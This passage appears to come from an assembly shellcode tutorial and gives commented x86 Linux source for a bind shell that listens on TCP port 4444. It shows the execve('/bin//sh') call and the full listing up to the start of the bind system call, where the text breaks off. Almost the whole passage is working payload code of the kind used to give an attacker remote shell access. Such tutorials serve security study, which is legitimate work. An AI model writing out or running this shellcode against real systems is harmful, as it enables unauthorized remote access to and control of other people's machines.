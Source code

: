 1.3.8) It's finaly time to execute the shell:
```nasm
;This part initialize and call the "execve" systemcall
xor eax, eax                ;Initialize eax to NULL
push eax                    ;Push a NULL Byte on the stack
push 0x68732f2f
push 0x6e69622f             ;Push "/bin//sh" on the stack
mov al, 0xb                 ;Move the "execve" systemcall number inside al
mov ebx, esp                ;Initialize ebx to "/bin//sh%00"
xor ecx, ecx                ;Initialize ecx to NULL
xor edx, edx                ;Initialize edx to NULL
;C code representation of the systemcall:
; --> execve("/bin/sh", NULL, NULL);
int 0x80                    ;Execute systemcall
```

You can find the whole code below:
-
```nasm
;ASM (x86) bind shell on port 4444

global _start

_start:
    ;This part initialize the registers and the stack
    mov ebp, esp                ;Initialize the stack frame

    xor eax, eax                ;Initialize eax to NULL
    xor ebx, ebx                ;Initialize ebx to NULL
    xor ecx, ecx                ;Initialize ecx to NULL
    xor edx, edx                ;Initialize edx to NULL


    ;This part push the structure "sockaddr_in" on the stack
    ;struct sockaddr_in addr;
    ;addr.sin_family = AF_INET;
    ;addr.sin_port = htons(4444);
    ;addr.sin_addr.s_addr = INADDR_ANY;
    push eax
    push eax                    ;Fill the end of the structure with 2 NULL Bytes
    push eax                    ;Initialize the variable "addr.sin_addr.s_addr" to listen for all incoming connection (INADDR_ANY) 
    push word 0x5c11            ;Initialize the variable "addr.sin_port" to listen on port 4444
    push word 0x02              ;Initialize the variable "addr.sin_family" to IPV4 (AF_INET)


    ;This part initialize and call the "socket" systemcall
    mov ax, 0x167               ;Move the "socket" systemcall number inside ax
    mov bl, 0x02                ;Move the "AF_INET" value (which means IPV4) inside bl
    mov cl, 0x01                ;Move the "SOCK_STREAM" value (which means TCP) inside cl
    
    ;C code representation of the systemcall:
    ; --> int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    int 0x80                    ;Execute the systemcall
    mov edi, eax                ;Move the return value from the "socket" systemcall into edi


    ;This part initialize and call the "bind" systemcall
    xor eax, eax                ;Initialize eax to NULL
    mov ax, 0x169               ;Move the "bind" systemcall number inside ax
    mov ebx, edi                ;Move the return value of "socket" inside ebx 
    mov ecx, esp                ;Point ecx to the structure
    ;Get the structure size
    mov edx, ebp
```